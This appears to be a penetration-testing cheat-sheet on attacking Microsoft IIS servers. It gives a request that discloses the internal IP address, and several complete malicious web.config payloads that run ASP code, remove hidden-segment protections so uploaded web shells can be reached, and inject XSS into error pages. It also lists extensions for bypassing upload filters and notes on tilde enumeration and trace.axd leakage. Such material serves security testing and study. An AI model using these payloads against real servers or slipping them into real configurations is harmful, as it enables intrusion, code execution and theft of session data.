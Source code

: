 ## 1) Internal IP Address disclosure

On any IIS server where you get a 302 you can try stripping the Host header and using HTTP/1.0 and inside the response the Location header could point you to the internal IP address:

Response disclosing the internal IP:

```
GET / HTTP/1.0       

HTTP/1.1 302 Moved Temporarily
Cache-Control: no-cache
Pragma: no-cache
Location: https://192.168.5.237/owa/
Server: Microsoft-IIS/10.0
X-FEServer: NHEXCHANGE2016

```

## 2) Running web.config as an ASP file

Sometimes IIS supports ASP files but it is not possible to upload any file with .ASP extension. In this case, it is possible to use a web.config file directly to run ASP classic codes:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
' it is running the ASP code if you can see 3 by opening the web.config file!
Response.write(1+2)
Response.write("<!-"&"-")
%>
-->
```
The web.config file plays an important role in storing IIS7 (and higher) settings. It is very similar to a .htaccess file in Apache web server. Uploading a .htaccess file to bypass protections around the uploaded files is a known technique. Some interesting examples of this technique are accessible via the following GitHub repository: https://github.com/wireghoul/htshells

In IIS7 (and higher), it is possible to do similar tricks by uploading or making a web.config file. A few of these tricks might even be applicable to IIS6 with some minor changes. The techniques below show some different web.config files that can be used to bypass protections around the file uploaders.

### Defaults extensions

* PHP Server
    ```powershell
    .php
    .php3
    .php4
    .php5
    .php7

    # Less known PHP extensions
    .pht
    .phps
    .phar
    .phpt
    .pgif
    .phtml
    .phtm
    .inc
    ```
* ASP Server
    ```powershell
    .asp
    .aspx
    .config
    .cer and .asa # (IIS <= 7.5)
    shell.aspx;1.jpg # (IIS < 7.0)
    shell.soap
    ```
* JSP : `.jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action`s
* Perl: `.pl, .pm, .cgi, .lib`
* Coldfusion: `.cfm, .cfml, .cfc, .dbm`

Removing protections of hidden segments
Sometimes file uploaders rely on Hidden Segments of IIS Request Filtering such as APP_Data or App_GlobalResources directories to make the uploaded files inaccessible directly.

However, this method can be bypassed by removing the hidden segments by using the following web.config file:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
        <security>
            <requestFiltering>
                <hiddenSegments>
                    <remove segment="bin" />
                    <remove segment="App_code" />
                    <remove segment="App_GlobalResources" />
                    <remove segment="App_LocalResources" />
                    <remove segment="App_Browsers" />
                    <remove segment="App_WebReferences" />
                    <remove segment="App_Data" />
                    <!--Other IIS hidden segments can be listed here to remove -->
                </hiddenSegments>
            </requestFiltering>
        </security>
    </system.webServer>
</configuration>
```
Now, an uploaded web shell file can be directly accessible.

Creating XSS vulnerability in IIS default error page
Often attackers want to make a website vulnerable to cross-site scripting by abusing the file upload feature.

The handler name of IIS default error page is vulnerable to cross-site scripting which can be exploited by uploading a web.config file that contains an invalid handler name (does not work in IIS 6 or below):

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers>
         <!-- XSS by using *.config -->
         <add name="web_config_xss&lt;script&gt;alert('xss1')&lt;/script&gt;" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="fooo" resourceType="Unspecified" requireAccess="None" preCondition="bitness64" />
         <!-- XSS by using *.test -->
         <add name="test_xss&lt;script&gt;alert('xss2')&lt;/script&gt;" path="*.test" verb="*"  />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   <httpErrors existingResponse="Replace" errorMode="Detailed" />
   </system.webServer>
</configuration>
```

Rewriting or creating the web.config file can lead to a major security flaw. In addition to the above scenarios, different web.config files can be used in different situations. I have listed some other examples below (a relevant web.config syntax can be easily found by searching in Google):


* Re-enabling .Net extensions: When .Net extensions such as .ASPX are blocked in the upload folder.
* Using an allowed extension to run as another extension: When ASP, PHP, or other extensions are installed on the server but they are not allowed in the upload directory.
* Abusing error pages or URL rewrite rules to redirect users or deface the website: When the uploaded files such as PDF or JavaScript files are in use directly by the users.
* Manipulating MIME types of uploaded files: When it is not possible to upload a HTML file (or other sensitive client-side files) or when IIS MIME types table is restricted to certain extensions.

## 3) Microsoft IIS tilde character Vulnerability

You can try to enumerate folders and files inside every discovered folder (even if it's requiring Basic Authentication) using this technique.
The main limitation of this technique if the server is vulnerable is that it can only find up to the first 6 letters of the name of each file/folder and the first 3 letters of the extension of the files.
You can use https://github.com/irsdl/IIS-ShortName-Scanner to test for this vulnerability

## 4) ASP.NET Trace.AXD enabled debugging

ASP.NET include a debugging mode and its file is called trace.axd.
It keeps a very detailed log of all requests made to an application over a period of time.
This information includes remote client IP's, session IDs, all request and response cookies, physical paths, source code information, and potentially even usernames and passwords.

![image](https://user-images.githubusercontent.com/63053441/202226272-ed035d88-ff8d-4495-8108-bf7fdb7dda81.png)


If you find an SSRF vulnerability in an ASP application, try reading trace.axd file. It contains logs of HTTP requests, you can find sensitive information in there.

* https://hackerone.com/reports/519418


## Refrences:
* https://book.hacktricks.xyz/
* https://github.com/swisskyrepo/PayloadsAllTheThings

